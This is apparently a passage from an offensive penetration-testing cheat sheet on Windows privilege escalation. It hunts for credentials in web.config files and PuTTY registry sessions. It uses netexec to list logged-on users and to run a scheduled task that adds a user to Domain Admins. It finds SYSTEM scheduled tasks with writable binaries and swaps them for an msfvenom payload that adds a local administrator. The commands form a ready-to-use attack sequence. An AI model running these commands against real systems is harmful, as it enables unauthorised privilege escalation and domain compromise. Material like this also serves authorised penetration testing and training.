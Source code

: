 {% endtab %}

{% tab title="Others" %}
```
• C:\inetpub\wwwroot\web.config
• C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```
{% endtab %}
{% endtabs %}

## **Scheduled tasks / Logged-on users**

<pre class="language-bash" data-overflow="wrap" data-full-width="true"><code class="lang-bash"># Check logged-on users
nxc smb serv01.testlab.local -u Administrator -p PASS --local-auth --loggedon-users
# Execute a command with user session
nxc smb serv01.testlab.local -u USER -p PASS --local-auth -M schtask_as -o USER=privileged.user CMD="powershell.exe \"Invoke-Command -ComputerName MYCOMPUTER -ScriptBlock {Add-ADGroupMember -Identity 'Domain Admins' -Member unprivileged.user}\""
<strong>
</strong><strong>schtasks /query /fo LIST /v
</strong># Search for tasks run by Administrator, SYSTEM or any other user with admin rights. Also with next run time within minutes.
# Then see if we can overwrite that specific binary to replace for a malicious one and wait till the task is executed.
schtasks /run /tn vulntask # in case we can run the task
# on target
		#List all scheduled tasks with system privileges
		schtasks /query /fo LIST /v
# on kali
		#copy over list and check for tasks as system
		cat schtask.txt | grep "SYSTEM\|Task To Run" | grep -B 1 SYSTEM	
# on target
# If we get a suspicious task, get more details and who runs it:
schtasks /query /fo LIST /v | select-string '$EXECUTABLE_NAME' -context 10
		# check if you have write access to executable to which the task points
		accesschk.exe -dqv "C:\Missing Scheduled Binary\"	
# Generate new payload
msfvenom -p windows/exec CMD='net localgroup administrators user /add' -f exe-service -o test.exe
# replace the task executable with our payload
# Do the same if we find a manual script run every X minutes that can be edited.
</code></pre>
